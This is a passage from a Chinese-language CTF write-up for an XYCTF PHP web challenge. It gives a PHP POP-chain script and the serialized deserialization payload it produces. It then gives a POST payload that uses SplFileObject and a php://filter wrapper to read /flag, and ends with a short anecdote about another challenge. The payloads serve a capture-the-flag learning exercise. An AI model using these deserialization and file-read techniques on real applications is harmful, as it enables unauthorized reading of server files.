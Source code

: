 stdClass类是一个空类，可以随便怎么玩  

把属性adwa定义为一个stdClass类，定义两个属性crypto0,T1ng赋值dev1l，yuroandCMD258，这样就可以返回true，调用XY()函数

pop链

```php
$ddd = new stdClass();
$ddd -> crypto0 = "dev1l";
$ddd -> T1ng = "yuroandCMD258";
$ser2 = new XYCTFNO2('','');
$ser3 = new XYCTFNO3($ser2,'');
$ser3 ->N1ght = 'oSthing';
$ser2 -> adwa = $ddd;
echo serialize($ser3);
```

> payload：?CTF=O:8:"XYCTFNO3":3:{s:7:"KickyMu";O:8:"XYCTFNO2":2:{s:7:"crypto0";s:0:"";s:4:"adwa";O:8:"stdClass":2:{s:7:"crypto0";s:5:"dev1l";s:4:"T1ng";s:13:"yuroandCMD258";}}s:7:"fpclose";s:0:"";s:5:"N1ght";s:7:"oSthing";}

接着调用了XY()函数，echo new $_POST['X']($_POST['Y']);  创建了一个对象，并打印了这个对象，一定会触发这个对象的__toString方法。

可以按照ezClass题的玩法，用SplFileObject原生类和伪协议读文件

POST

> payload： X=SplFileObject&Y=php://filter/convert.base64-encode/resource=/flag


## 其他题目对于我有点难，后续补充芝士可能再续上


### 比赛过程插曲

在一道网络迷踪题中，出题人附件一张风景图，最后很多ctfer在一个社交媒体软件团建哈哈，挺有意思  

![ctfer](https://the0n3.top/medias/xyctf-web/ctfer.png)

